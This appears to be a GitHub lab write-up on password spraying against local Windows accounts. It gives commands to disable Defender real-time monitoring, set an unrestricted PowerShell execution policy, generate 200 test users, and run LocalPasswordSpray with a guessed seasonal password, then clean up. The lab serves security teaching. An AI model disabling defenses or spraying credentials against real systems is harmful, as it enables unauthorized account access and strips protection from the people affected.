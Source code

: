 <h3>Password Spray</h3>

---

**Tools, Techniques & Technologies used:** Windows, Powershell, Powershell Script, cmd, Password Spray

---


_A Password Spraying Attack is a form of brute force attack in which an attacker repeatedly tries the same password across multiple accounts before moving to the next one. This method is effective because many users utilize easily guessable passwords like "password123."_

_Many organizations implement a security practice of locking out a user's account after a few consecutive failed login attempts, typically 3-5 tries within a short timeframe. However, due to the characteristic of password spraying attacks, malicious actors can evade detection and avoid being locked out of an account, distinguishing it from conventional brute force attacks._


---

To start, disable Defender by running the following command in an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will deactivate Defender for this session. If you encounter red error messages, it indicates that Defender is already inactive. Now, proceed by opening a Terminal as an Administrator.

![1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5977653d-b126-45b2-81d0-b9722b6e5d87)
![1 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5d9970f7-efc9-4054-8fde-26b837a29e4d)

Now, let's open a command Prompt:

![2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/f384aac9-3813-4403-8be7-05ad088368b9)

C:\Windows\system32> `cd \tools`

Run a simple .bat file that creates 200 users

![2 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/4500552d-20ea-4d3b-a185-6beeca1aefd8)

C:\Tools> `200-user-gen.bat`

It should look like this:

![3](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/f2ab7411-4b0d-48cf-b165-089a76094b1f)

Now, we will need to start PowerShell to run LocalPasswordSpray (Powershell script written by Beau Bullock

C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `Import-Module .\LocalPasswordSpray.ps1`

![3 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/de7bd801-598f-4880-a945-89f44c908141)

It should look like this:

![4](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/f3d5b934-cea0-4a3a-bbe0-b3abce8de98e)

Now, let’s try some password spraying against the local system!

PS C:\Tools> `Invoke-LocalPasswordSpray -Password Winter2020`

It should look like this:

![5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/98e329bc-d5a5-4c5f-9cd9-edb438492fc1)
![5 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/6cae4137-87e7-45d0-a5f6-f47e1e1ef7ac)

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

![6](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/151e74c9-fadf-470a-a2c0-0e4a2ff55531)














